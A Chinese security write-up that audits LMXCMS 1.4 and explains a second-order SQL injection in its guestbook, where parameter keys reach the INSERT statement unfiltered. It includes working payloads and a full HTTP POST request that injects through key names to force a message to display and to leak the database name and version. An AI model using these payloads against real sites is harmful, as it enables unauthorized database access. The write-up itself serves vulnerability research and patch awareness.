 ### 前言

看了社区一位师傅发的[梦想cms的文章](https://forum.butian.net/share/955 "梦想cms的文章"),在cnvd一搜发现洞还挺多的，在本地审计复现了一下，于是写了这篇文章。

### 二次注入简述

二次注入是SQL注入的一种。漏洞的发生主要分为两步，第一步是攻击者构造恶意SQL语句，这些语句会插入并存储在数据库中，第二步是将存储在数据库中的恶意SQL语句取出，直接调用，这样就造成了SQL的二次注入。

### CMS框架

首先，了解一下cms的框架  
index.php  
![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-30b7430fd890c0697c1a991a3a8de97daa90ebba.png)

先define定义两个常量，然后require包含文件。/inc/config.inc.php中是网站的配置文件，简单浏览一下后继续看/inc/run.inc.php文件。  
![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-fc21f45a875d89c9ef2bdf01c80106e8cd403b17.png)

69-73行中，通过Get方式传入参数m，控制调用的控制器，最后触发run()方法，跟进查看  
![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-62bb11e9724c84b78f97840198e8939ae8f4e1ce.png)

Get方式传入参数a，如果参数a代表的方法存在，则调用该方法，否则调用index方法。

### 漏洞分析

大概了解了cms的框架，下面开始漏洞分析  
漏洞出现在/index/BookAction.class.php文件，先访问看看  
![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-9d695e3f9af324e0917aad3c340dd73de9f34d97.png)  
发现是留言版功能，那么可以猜想一下大概的流程，应该是可以通过留言插入sql语句到数据库中，然后下方显示留言的地方会调用数据库中的数据，从而造成二次注入。

下面来看具体代码  
留言提交代码块  
![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-2e0f74204320e29b9de454b04bceb44a0f4c3b38.png)

当setbook参数不为空，会调用checkData方法对参数进行检测，主要是调用p()函数防止sql注入，这里暂且不看，继续往下，进入add方法  
![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-09756fb3311f72c0a39079a34929cb0421de1ac8.png)

跟进addModel()  
![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-97c4a1f393a12c335679d701ded08e6922aa0abe.png)

最后跟踪到addDB方法  
![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b1d1b9c50dabfe04b244357bf5f87e14119f2de0.png)

看到往数据库中插入的参数，$field和$value实际上就是传入的键值对的key和值  
![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-754c4366eae61854c990025d0055e28fa3360ac4.png)

可以发现，键值对的值是使用单引号进行包裹，但是key直接传入，没做任何过滤  
在cms的防止sql注入的过滤函数p()中，同样只对$v进行了过滤，忽略了$key  
![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c1644427abf8fb19fd79445c4c4a7290814436b0.png)

接下来留言看看插入的sql语句，在源码将sql语句输出，方便构造  
![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-52e9f9eba2a016b308f68578dfe921e1a8c3a935.png)  
可以看到sql语句是

```sql
INSERT INTO lmx_book(name,content,mail,tel,ip,time) VALUES('1','4','2','3','127.0.0.1','1640673423')
```

上面分析了键值对中的key没有过滤，那么可以尝试修改key构造注入语句

```sql
name=1&mail=2&tel=3&content=4&setbook=1&time)values('1','4','2','3','5','6')#=1
```

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-56cec503ed876382a3c1506a19df6116a622fbf5.png)

注入之后，回到页面发现并没有看到提交的留言，到mysql中看看  
![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-85981822fd455e5142d365c6782bab1e35fe2417.png)

可以看到留言确实是插入到了数据库中，之所以没有显示，是因为有一个参数ischeck  
在调用留言的代码中，可以看到只调用了’ischeck=1‘的留言  
![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-fdb31fa51a97021b7bfa2d283c53db05ec1a4320.png)

那么我们再在数据包中添加一个参数，修改ischeck值为1  
![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-0b597ba86200f4f5769728ba887115ba2be0fd49.png)

再次回到留言版，可以看到留言，且name和content处有回显  
![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-4762ea7dbdbccb3aa828530a18ddba218edc40cd.png)

于是修改数据包，查询database()及version()

```markdown
POST /lmxcms1.4/index.php?m=Book&a=setBook HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 104
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/lmxcms1.4/?m=book
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

name=1&mail=2&tel=3&content=4&setbook=1&time,ischeck)values(database(),version(),'2','3','5','6','1')#=1
```

留言处成功回显数据库名及版本信息  
![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c4b2a4abe34567402d7510ea4c7eef04e2938d3a.png)

### 写在后面

二次注入可以说是比较难发现的一种注入，不仅需要插入数据，还需要找到将插入数据提取出来使用的地方。即使找到注入的地方，如果不能看到回显也是没有用处了。本文分析的漏洞官方出了相应补丁，将留言设置为前台不显示，从而防止了二次注入的第二步。